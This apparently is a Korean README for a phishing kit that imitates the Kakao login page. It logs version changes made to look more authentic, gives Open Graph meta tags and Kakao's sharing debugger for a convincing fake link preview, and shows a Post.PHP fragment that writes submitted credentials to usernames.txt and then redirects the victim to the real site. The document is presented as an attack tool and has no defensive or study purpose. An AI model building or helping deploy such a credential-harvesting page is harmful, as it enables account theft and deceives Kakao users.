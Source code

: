 # 카카오 로그인 페이지

## 버전 변천사


<img src="이미지 026.jpg" style="width: 70%;">

```
V1.0
어색한 로그와 모바일 버전에 많은 불편이 확인 되었습니다.
```

```
V2.0
공식 페이지의 로고를 따와 사진용으로 대체하여 더욱 자연스러운 로그를 나타냅니다.
일부 배경 화면 advertisement.png은 제거 하였습니다.
모바일 최적화 하기 위해 일부 폰트 사이즈를 조절 하였으며, tail 옵션 일부를 제거 하였습니다.
아이폰 기종에 색 반전 현상이 발생되어 input type 에서 button type 으로 교체하여 해결 하였습니다.
```

## Fake URL Preview
```
<head>
    <meta property="og:url" content="[[카카오 썸네일 노출 링크]]">
    <meta property="og:title" content="제목">
    <meta property="og:type" content="website">
    <meta property="og:image" content="[[카카오 썸네일 노출 링크]]">
    <meta property="og:description" content="본문 내용.">
    <title>카카오톡 URL링크</title>
</head>
```
```
# 빠른 썸네일 반영
https://developers.kakao.com/tool/debugger/sharing
```
## Phishing

```
# Post.PHP
$handle=fopen("usernames.txt","a"); 입력된 계정 정보를 usernames.txt에 저장 
header("location:[[로그인 버튼 누를시 이동되는 원본 사이트 주소]]");

```
